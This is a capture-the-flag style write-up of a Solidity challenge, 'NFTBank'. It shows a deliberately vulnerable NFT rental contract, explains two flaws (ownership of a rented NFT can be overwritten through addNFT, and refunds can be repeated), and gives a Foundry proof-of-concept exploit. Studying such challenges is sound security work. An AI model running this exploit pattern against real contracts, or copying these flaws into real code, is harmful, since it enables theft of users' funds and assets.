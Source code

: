# NFTBank

## Challenge

Description:
Users can rent NFTs from the NFTBank. They have to pay a fixed commission when they want to get rent, and when they want to return NFT,
the contract will take a second fee, depending on how many days you have NFT from.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import {IERC721} from "openzeppelin-contracts/contracts/token/ERC721/IERC721.sol";
import {ERC721Holder} from "openzeppelin-contracts/contracts/token/ERC721/utils/ERC721Holder.sol";
import {ReentrancyGuard} from "openzeppelin-contracts/contracts/security/ReentrancyGuard.sol";

contract NFTBank is ReentrancyGuard, ERC721Holder {
    struct rentData {
        address collection;
        uint id;
        uint startDate;
    }

    struct nftData {
        address owner;
        uint rentFeePerDay;
        uint startRentFee;
    }
    mapping(address => mapping(uint => nftData)) public nfts;
    mapping(address => mapping(uint => uint)) public collectedFee;
    rentData[] public rentNFTs;

    error WrongETHValue();
    error YouAreNotOwner();

    function addNFT(
        address collection,
        uint id,
        uint rentFeePerDay,
        uint startRentFee
    ) external {
        nfts[collection][id] = nftData({
            owner: msg.sender,
            rentFeePerDay: rentFeePerDay,
            startRentFee: startRentFee
        });
        IERC721(collection).safeTransferFrom(msg.sender, address(this), id);
    }

    function getBackNft(
        address collection,
        uint id,
        address payable transferFeeTo
    ) external {
        if (msg.sender != nfts[collection][id].owner) revert YouAreNotOwner();
        IERC721(collection).safeTransferFrom(address(this), msg.sender, id);
        transferFeeTo.transfer(collectedFee[collection][id]);
    }

    function rent(address collection, uint id) external payable {
        IERC721(collection).safeTransferFrom(address(this), msg.sender, id);
        if (msg.value != nfts[collection][id].startRentFee)
            revert WrongETHValue();
        rentNFTs.push(
            rentData({
                collection: collection,
                id: id,
                startDate: block.timestamp
            })
        );
    }

    function refund(address collection, uint id) external payable nonReentrant {
        IERC721(collection).safeTransferFrom(msg.sender, address(this), id);
        rentData memory rentedNft = rentData({
            collection: address(0),
            id: 0,
            startDate: 0
        });
        for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                rentedNft = rentNFTs[i];
            }
        }
        uint daysInRent = (block.timestamp - rentedNft.startDate) / 86400 > 1
            ? (block.timestamp - rentedNft.startDate) / 86400
            : 1;

        uint amount = daysInRent * nfts[collection][id].rentFeePerDay;
        if (msg.value != amount) revert WrongETHValue();
        uint index;
        for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                index = i;
            }
        }
        collectedFee[collection][id] += amount;
        payable(msg.sender).transfer(
            nfts[rentNFTs[index].collection][rentNFTs[index].id].startRentFee
        );
        rentNFTs[index] = rentNFTs[rentNFTs.length - 1];
        rentNFTs.pop();
    }
}
```

## Solution

The NFTContract looked kind of confusing to me in the beginning, but was not that complicated after looking at it in detail.

The vulnerability consists of 2 issues.

### No check for rented NFTs during addNFT() 
When adding a NFT using addNFT() there are no checks if the NFT is already rent out. So we can just rent out an NFT and then return it to the contract using addNFT() becoming the new owner, as the struct that includes the owner is just overwritten.

### No check for multiple consecutive refunds

When we are the owner we can refund ourselfes and then call getBackNft() multiple times. 

### Exploit 

We can use both of those vulnerabilities by making ourself the owner of the NFT using addNFT() and getting the NFT back that way after the return, and using the multiple refunds to get back all our money. I implemented this in the POC like this:

```solidity
vm.startPrank(attacker);
bank.rent{value: 500 gwei}(address(meow), 1);
vm.warp(block.timestamp + 86400 * 10);
//solution start

//we add the NFT to the bank
meow.approve(address(bank), 1);
bank.addNFT(address(meow), 1, 0 gwei, 500 gwei);

//now we rent it out again
bank.rent{value: 500 gwei}(address(meow), 1);

//we refund the NFT to get back the first 500 gwei
meow.approve(address(bank), 1);
bank.refund(address(meow), 1);

//then we get it back as we are now marked as the owner
bank.getBackNft(address(meow), 1, payable(address(attacker)));

//then we refund it again to get the second 500 gwei
meow.approve(address(bank), 1);
bank.refund(address(meow), 1);

//then we get it back again
bank.getBackNft(address(meow), 1, payable(address(attacker)));

//solution end  
vm.stopPrank();
```

